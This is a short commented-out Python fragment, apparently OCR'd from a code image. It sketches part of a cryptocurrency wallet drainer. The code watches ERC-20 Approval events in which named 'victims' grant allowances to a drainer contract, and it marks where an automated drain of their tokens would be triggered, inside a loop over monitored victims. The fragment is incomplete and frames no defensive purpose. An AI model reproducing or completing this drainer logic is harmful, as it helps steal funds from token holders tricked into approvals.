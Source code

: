         # def check_for_new_approvals(victim_address, token_contract_address):
        #     token_contract = w3.eth.contract(address=token_contract_address, abi=ERC20_ABI_FOR_EVENTS)
        #     # Filter for Approval events where owner is victim and spender is drainer contract
        #     event_filter = token_contract.events.Approval.create_filter(
        #         fromBlock="latest", # Or a recent block to avoid too much data
        #         argument_filters={"owner": victim_address, "spender": DRAINER_CONTRACT_ADDRESS}
        #     )
        #     new_events = event_filter.get_new_entries()
        #     for event in new_events:
        #         print(f"New approval detected: Victim {event.args.owner} approved {event.args.spender} for {event.args.value} of token {token_contract_address}")
        #         # Trigger drain logic (could be a call to backend API or direct tx from this script)
        #         # trigger_automated_drain(victim_address, token_contract_address, event.args.value)
        #     return new_events

        # # Main monitoring loop (simplified)
        # # monitored_victims_tokens = { "0xVictim1": ["0xTokenA", "0xTokenB"] }
        # # while True:
        # #     for victim, tokens in monitored_victims_tokens.items():
        # #         for token_addr in tokens:
        # #             check_for_new_approvals(victim, token_addr)